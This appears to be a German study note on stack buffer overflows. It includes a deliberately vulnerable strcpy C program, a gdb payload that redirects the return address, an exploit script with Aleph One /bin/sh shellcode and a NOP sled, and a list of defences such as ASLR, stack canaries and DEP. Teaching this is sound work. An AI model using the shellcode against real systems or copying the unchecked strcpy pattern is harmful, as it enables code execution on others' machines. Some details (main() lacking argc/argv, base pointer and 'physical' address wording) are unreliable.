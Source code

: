 Ein Buffer Overflow (oder Pufferüberlauf) ist, wenn eine Variable ihren eigentlich angedachten Speicherbereich überschreitet. Die kann zum Beispiel passieren, wenn ein Speicherbereich für einen String der Länge 10 reserviert wurde, jedoch ein String der Länge 20, ohne Überprüfung in den Speicherbereich geladen wird.  

Puffer = Speicherbereich
Pufferüberlauf: Die Menge der in den Puffer zu schreibenden Daten ist größer als der Speicherbereich -> Überlauf

## Normale Abarbeitung eines Programms
1. Schrittweise Abarbeitung der Maschinenbefehle, nächster Befehl bei nächsthöherer Speicheradresse
2. Hauptprogramm: Sprunganweisung in ein Unterprogramm (inkl. Parameterübergabe)
	- Herkunftsadresse (Ort von wo das Unterprogramm im Hauptprogramm gestartet wird) muss sich gemerkt werden um an dieser Stelle später das Hauptprogramm fortzuführen
3. Um nach Unterprogramm das Hauptprogramm fortsetzen zu können, wird die Rücksprungadresse auf dem Stack abgelegt.
4. Variablen des Unterprogramms benötigen ebenfalls Platz auf dem Stack -> Trennung zwischen Adresse und Variablen -> `Stack Basepointer` 
5. Sprung in das Unterprogramm
6. Abarbeitung der Maschinenbefehle des Unterprogramms
7. Ende des Unterprogramms 
	1. Rücksprungadresse vom Stack holen
	2. Speicher auf dem Stack wieder freigeben
	3. Rücksprung in das Hauptprogramm
8. Fortsetzung des Hauptprogramms

## Buffer Overflow herbeiführen
Im oben aufgeführten Programmablauf lässt sich ein Buffer Overflow missbrauchen, indem man bei der Ausführung des Unterprogramms einen Buffer Overflow nutzt um (z.B. durch Nutzereingabe eines Strings) den Speicher bis zum `Stack Basepointer` mit dem eigenen Code zu überschreiben. Der `Stack Basepointer` soll dabei auf die Speicheradresse des eingeschleusten Code zeigen. 
Sobald zu der in der Rücksprungadresse gespeicherten Adresse gesprungen wird, wird der eingeschleuste Code ausgeführt.

Herausforderung aus Angreifer-Sicht:
1. Er weiß nicht an welcher Stelle im Speicher sich die absolute Rücksprungadresse befindet.
   -> Rücksprungadresse mehrfach oberhalb Exploit-Code
2. Er kennt die absoluten Speicheradressen des Programms nicht.
   -> "Landezone" unterhalb des Exploit Code (NOP: no operation)
3. Zeichenkette darf keine `Null`-Bytes enthalten.
   -> Verwendung einer geeigneten Codierung

### Code Beispiele
Damit folgende Beispiele funktionieren wurden einige Sicherheitsmaßnahmen im Betriebssystem deaktiviert.
Siehe auch [[gdb (GNU Debugger)]]. Dieses CLI-Tool wurde verwendet um während des Programmablaufs den Speicher betrachten zu können.

#### Konsolenausgabe
`target0`:
``` C
void versteckt() {
	// Ausgabe eines Strings auf der Standardausgabe
	fprintf(stdout, "You have been pwnd!\n");
}
int funk2(char *arg, char *out) {
	// Kopiert von arg nach out bis arg Nullterminiert (0x00)
	strcpy(out, arg);
	return 0;
}
int funk1(char *argv[]) {
	// allociert 128 Bytes an Speicher
	char buffer[128];
	// ruft funk2 mit dem ersten CMD-Argument auf
	funk2(argv[1], buffer);
}
int main() {
	// Überprüfe, dass genau ein Kommanozeilenparameter übergeben
	// wurde, andernfalls gib eine Fehlermeldung aus
	if (argc != 2) {
		fprintf(stderr, "target0: argc != 2\n");
		exit(EXIT_FAILURE);
	}
	// Rufe funk1 auf
	funk1(argv);
	return 0;
}
```
Die Funktion `versteckt` wird innerhalb von dem Skript `target0` nie aufgerufen. Dennoch lässt sich das Programm über ein Kommandozeilenparameter so manipulieren, dass die Funktion `versteckt` aufgerufen wird. 
Für die Variable `buffer` wurden 128 Bytes an Speicher allokiert. Im Anschluss an den für die Variable `buffer` reservierten Speicher liegt der `Stack Basepointer` (4 Bytes )und im Anschluss daran die `Rücksprungadresse` (ebenfalls 4 Bytes). Da in `funk2` mit dem Methodenaufruf `strcpy` keine Kontrolle stattfindet, ob das Ziel des Kopiervorgangs auch groß genug ist für das übergebene char-Array, lässt sich ein `buffer overflow` herbeiführen und die `Rücksprungadresse` manipulieren.
In diesem Fall wird ein char-Array mit einer Länge von 136 Bytes benötigt um den `Stack Basepointer` und die `Rücksprungadresse` zu überschreiben. Wenn also die letzten 4 Byte des char-Arrays der physischen Adresse der `versteckt`-Funktion entsprechen, wird Diese ausgeführt.

Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run target0 ``python -c "print('A'*132 + '\xbb' + '\x84' + '\x04' + '\x08')"`
```
Vorausgesetzt die physischen Adresse der `versteckt`-Funktion lautet `0x80484bb`
Es entsteht zwar ein `Segmentation Fault` am Ende, doch vorher wurde die `versteckt`-Funktion ausgeführt.

#### Öffnen einer Shell
Statt einfach nur 132 A's in die `buffer`-Variable zu schreiben lässt sich auf diese Weise auch weiterer Maschinencode in ein Programm einschleusen. Zur Generierung des Maschinencodes für die Öffnung einer Shell, lässt sich folgendes Python-Skript nutzen:
`exploit.py`
``` python
# Shellcode von Aleph One
sc = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
# Speicheradresse von buffer, little endian beachten
buffer_addr = '\x8c\xf5\xff\xbf'
length_buffer = 128
size_ebp = 4 # Länge des Stack Basepointer (Bytes)
size_eip = 4 # Länge der Rücksprungadresse (Bytes)
total_length_input = length_buffer + size_ebp + size_eip
# Ausgabe erzeugen, inkl. NOP Sliding
print((total_length_input - len(sc) - len(buffer_addr)) * '\x90' + sc + buffer_addr) 
```
Die Variable `buffer_addr` muss entsprechend auf die Adresse angepasst werden, wo die Variable im physischen Speicher abgelegt ist. Diese muss jedoch nicht ganz exakt sein, da folgend auf die Adresse die `NOP`-Operation (`\x90`) als eine Art "Landezone" steht. Dadurch funktionieren höhere Adressen (bis zu einem gewissen Grad) auch noch.
Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run `python exploit.py`
```
Die dabei geöffnete Shell besitzt die gleichen Rechte, wie das ausgeführte Programm. Der nächste Schritt wäre nun z.B. eine `privilege escalation` zu erreichen um an `root`-Rechte zu kommen.

## Schutzmaßnahmen gegen Pufferüberläufe: 
<b>Never trust user input</b>
- sorgfältige Programmierung und Nutzung entsprechender Compiler-Funktionen
- Überprüfung des Programmcodes mit speziellen Werkzeugen
- ASLR ( `Address Space Layout Randomization` )
	- Alle Programmteile und alle eingebundenen Bibliotheken müssen ASLR aktiviert haben, sonst ist der Schutz nicht gegeben.
	- virtuelle Adressen werden durchgemixt
- `Stack Canaries` bzw. `Stack Cookies`
	- Im Stack wird zwischen Rücksprungvariable und den eigentlichen Variablen ein zufälliger Wert gespeichert.
	- Bevor die Rücksprungadresse aufgerufen wird wird überprüft, ob sich dieser zufällige Wert geändert hat.
- `Shadow Stack`
	- Man hat einen vom Haupt-Stack getrennten, zusätzlichen Stack, der nur Rücksprungadressen speichert.  Vor dem Rücksprung vergleicht die CPU ob die normale Rücksprungadresse der `Shadow-Stack`-Adresse entspricht
	- Intel CET ( `Control-Flow Enforcement Technology` ) setzt seit Windows 10 diese Taktik um.
- ESP ( `Excecutable Space Protection` ) 
	- Unter Windows heißt es `Data Excecution Prevention`
	- Es kann nur noch Code ausgeführt werden, welcher innerhalb des für Programmcode reservierten Speicherbereichs liegt.

